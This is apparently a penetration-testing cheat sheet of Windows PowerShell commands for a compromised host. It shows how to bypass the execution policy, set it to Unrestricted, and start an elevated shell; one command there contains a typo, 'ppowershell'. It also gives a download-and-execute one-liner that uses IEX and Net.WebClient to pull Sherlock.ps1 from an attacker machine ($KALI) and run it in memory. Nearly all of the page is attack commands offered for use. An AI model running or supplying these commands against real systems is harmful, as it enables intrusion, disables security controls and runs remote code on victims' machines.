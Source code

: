 [[1._rlwrap]]

#### Execution bypass
```batch - windows
powershell -ep bypass
```

If shell gets stuck here, you can still run PowerShell files like this:

```batch - windows
powershell -ep bypass .\PowerUp.ps1
```

### SET EXECUTION ON

#### 1st method
```powershell - windows
powershell Get-ExecutionPolicy
```

```powershell - windows
powershell Set-ExecutionPolicy Unrestricted
```

```powershell - windows
powershell Get-ExecutionPolicy
```

#### 2nd method
```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

```powershell - windows
powershell Set-ExecutionPolicy unrestricted -Scope CurrentUser
```

```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

#### Download and execute from CMD
```batch - windows
echo IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/Sherlock.ps1') | powershell -noprofile -
```

RDP - Run PowerShell as Admin
```powershell - windows
start-process ppowershell -verb runas
```


